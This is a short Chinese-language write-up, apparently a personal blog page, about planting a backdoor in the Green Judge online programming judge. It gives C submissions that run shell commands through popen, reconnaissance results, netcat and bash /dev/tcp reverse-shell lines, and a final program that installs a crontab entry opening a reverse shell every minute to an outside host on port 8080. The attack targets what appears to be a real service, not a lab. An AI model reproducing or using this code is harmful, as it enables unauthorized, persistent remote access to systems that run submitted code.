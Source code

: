 ```yaml
---
layout: default
---
```


# Green Judge backdoor
## 序言

反正這個後門是我學長告訴我說，Green Judge之前有一個沒封過的後門

然後依照我就去找了以下他的system function可用的只有popen（我沒測過別的可用的）

花了一個學期我學會了很多系統的技巧我才成功開後門進去

## 實作 

依照我原本測試的popen只要這樣就能寫入指令

```c
#include <stdio.h>
#include <string.h>

int main(void) {
	//shell command
	char* command=(char*)"echo test";

	popen(command, "r");

	return 0;
};
```

然而要print &1的話...

```c
#include <stdio.h>
#include <string.h>

#define COMMAND_LENTH 32
int main(void) {
	char CMBuf[ COMMAND_LENTH ]={0};
	FILE *fpRead;
	
	//shell command
	char* command=(char*)"echo Hello!";
	char* renewCh;

	fpRead = popen(command, "r");
	fgets(CMBuf, COMMAND_LENTH , fpRead);
	
	if(fpRead != NULL)
		pclose(fpRead);

	renewCh=strstr(CMBuf,"\n");
	if(renewCh)
		*renewCh= '\0';
	printf("%s\n", CMBuf);
	
	return 0;
};
```

這樣甚至可以解第一題Hello!

### 收集資訊

uname:FreeBSD

id:tomcat staff

pwd:/root

ls:無法顯示

passwd:無法完整顯示

which nc:/usr/local/bin/nc

### reverse shell

開始測試reverse shell

```sh
nc -c /bin/sh ip port
```

然後我回想到FreeBSD不能使用nc -c

只好使用bash tcp 傳送了

```sh
/usr/local/bin/bash -c '/usr/local/bin/bash -i >& /dev/tcp/myip/port 0>&1'
```

結果他測資有時間限制所以CE= =

過了一個月我才想到user本身有crontab的權限

然而FreeBSD的語法不允許pipeline進去

所以用寫入的方式，結果我又忘記/root正常沒有寫入權限

所以最終結果長這個樣子

```c
#include <stdio.h>
#include <string.h>

#define COMMAND_LENTH 32
int main(void) {
	char CMBuf[ COMMAND_LENTH ]={0};
	FILE *fpRead;
	
	//shell command
	char* command=(char*)"echo \"* * * * *  /usr/local/bin/bash -c \'/usr/local/bin/bash -i >& /dev/tcp/cnmc.tw/8080 0>&1\'\">/home/tomcat/backdoor;crontab /home/tomcat/backdoor&&echo Hello!";
	char* renewCh;

	fpRead = popen(command, "r");
	fgets(CMBuf, COMMAND_LENTH , fpRead);
	
	if(fpRead != NULL)
		pclose(fpRead);

	renewCh=strstr(CMBuf,"\n");
	if(renewCh)
		*renewCh= '\0';
	printf("%s\n", CMBuf);
	
	return 0;
};
```

### 提權

待補

而且我發現已經有人進去過ㄌQQ
